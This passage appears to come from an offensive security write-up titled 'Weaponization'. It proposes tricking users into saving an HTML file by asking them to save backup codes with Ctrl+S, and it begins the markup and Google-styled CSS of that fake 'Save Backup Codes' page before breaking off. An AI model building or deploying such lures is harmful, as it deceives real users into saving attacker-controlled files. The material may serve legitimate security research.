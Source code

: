 # Weaponization

Now that we've confirmed that we can execute the file, we need a social engineering trick to make the user save the HTML page. One idea that immediately comes to mind is asking users to save backup codes via `Ctrl+S`.

```html
<!DOCTYPE html>
<!-- saved from url=(0043)https://example.com/path/to/your/file.html -->
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Save Backup Codes</title>
  <style>
    body {
      font-family: 'Roboto', sans-serif;
      background: #f1f3f4;
      margin: 0;
      padding: 0;
      display: flex;
      align-items: center;
      justify-content: center;
      height: 100vh;
    }

    .card {
      background: #fff;
      width: 400px;
      border-radius: 8px;
      box-shadow: 0 4px 12px rgba(0, 0, 0, 0.1);
      padding: 24px 32px;
      text-align: center;
    }

    h2 {
      margin-top: 0;
      font-weight: 400;
    }

    .desc {
      font-size: 0.95em;
      color: #5f6368;
    }

    .instructions {
      text-align: left;
      background: #f8f9fa;
      border-left: 4px solid #1a73e8;
      padding: 16px;
      margin: 24px 0;
      font-size: 0.9em;
      line-height: 1.8em;
    }

    .codes {
      display: grid;
      grid-template-columns: repeat(2, 1fr);
      gap: 12px;
      font-size: 1.1em;
      margin: 20px 0;
    }

    .codes div::before {
```